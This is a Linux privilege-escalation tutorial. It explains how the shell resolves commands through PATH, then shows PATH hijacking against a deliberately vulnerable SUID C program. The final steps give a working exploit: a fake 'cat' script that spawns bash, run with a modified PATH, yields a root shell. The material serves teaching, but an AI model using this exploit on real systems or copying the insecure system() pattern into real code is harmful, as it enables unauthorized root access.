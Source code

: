 # PATH Hijacking

[Linux Privilege Escalation – PATH Hijacking](https://www.youtube.com/watch?v=IPs5xz5aEzk)

## What is the PATH?

When you launch a program, for example in the shell, you typically
just write the name of the program. For example, if I want to list out
all the files in a given directory, I can use the *ls* program as
follows

```sh
$ ls
content  public  thumbnail  video
```
Now, how does the shell process know which command to execute?
Remember that in modern operating systems, resources are located in
specific paths of a file system. All sorts of resources are located
like that. Even binaries, which are the programs we use to do
various activities.

This means that before executing the command, the shell needs to
resolve its full path, that is, it needs to know where does the
program reside within the file system. This is where the concept of
a PATH comes in.

**IMPORTANT**: The PATH is an environment variable, found within the
shell and other processes as well, which determines the folders to
look in order to resolve command names into full paths.

In order to print the value of the PATH, within the shell `bash` we
can execute the following command

```sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/usr/lib/rustup/bin:/home/leo/utils/:/home/leo/go/bin/
```
Notice here that `echo` is the command used to print stuff to the
console, and `$PATH` is the name of the environment variable which
contains the PATH.

As you can see, the PATH is actually a list of directory paths,
separated with colons. If we were to list out the paths in the
previous output we'd obtain the following list

```
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin
/usr/lib/jvm/default/bin
/usr/bin/site_perl
/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin
/home/leo/utils/
/home/leo/go/bin/
```

Now, how is PATH used? Simple, when you launch a program without a
full path, such as when we just executed the command *ls*, the shell
will use this list of folders in order to look for the ls binary. It
will start from the first folder, and, until it has found an ls
binary, it will keep looking for further folders, until all of them
have been checked.

In the case of `ls`, it will do the following

1. First it checks if in the folder `/usr/local/sbin` there is the
binary `ls`, that is, it checks for the existence of the file

```
/usr/local/sbin/ls
```

Since there is no such file in our current file system, it keeps
going and checks for the next directory.

2. The second directory is `/usr/local/bin`, and so the shell checks for the existence of the file

```
 /usr/local/bin/ls
```
Since there is no such file in our current file system, it keeps going and checks for the next directory.

3. The third directory is ~/usr/bin~, and so the shell checks for the existence of the file

```
/usr/bin/ls
```

Since there is such file in our current file system, it loads the file in memory and it executes it.
Indeed, notice that if we execute `ls` or we execute `/usr/bin/ls` with its ful path, we get the same output

```sh
$ ls
content  public  thumbnail  video

$ /usr/bin/ls
content  public  thumbnail  video
```

To understand how a given command is resolved, we can use the binary
`which`. This binary uses the PATH in exactly the same we just
described in order to print out the full path of the command.

```
$ which ls
/usr/bin/ls
```

## PATH Hijacking
Having described what is the PATH, we can know understand the
dynamics of the *PATH Hijacking* attack.

Let's say we have the following C program called `reader.c`.

```c
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}

```
  
We can compile the program and make it a SUID binary owned by the `root` user as follows

```sh
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
```

As we can see, the program is used to read some files within an
archive directory, where archive contains a bunch of files which can
only be access by root, or by the program itself in read only mode.

```sh
$ sudo tree -L 2
.
├── archive
│   ├── 01.txt
│   ├── 02.txt
│   └── 03.txt
├── notes.org
├── reader
└── reader.c
```

The program just shown is vulnerable to PATH hijacking. Notice how the
program makes use of the `cat` binary in order to print out the
contents of the file. Specifically, notice how cat is called: no full
path is given, therefore the path that used to find the binary will be
computed at runtime using the PATH environment variable. And this is
why the program is vulnerable and can be exploited.

Before calling the binary, an attacker can set a specific environment PATH, and the vulnerable program will use that to find the cat binary. An attacker can then create a malicious binary or script called `cat` and place it within the first folder of the path. When the program will execute, it will find the attacker's malicious code, and not the original cat.

In the example shown above, the attacker can do the following

1. Create a malicous bash script and call it `cat` within the current folder

```sh
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
```
2. Launch the program with a malicious PATH variable

```sh
PATH=.:$PATH ./reader 01.txt
```

3. Enjoy the profit

```
# whoami
root
```
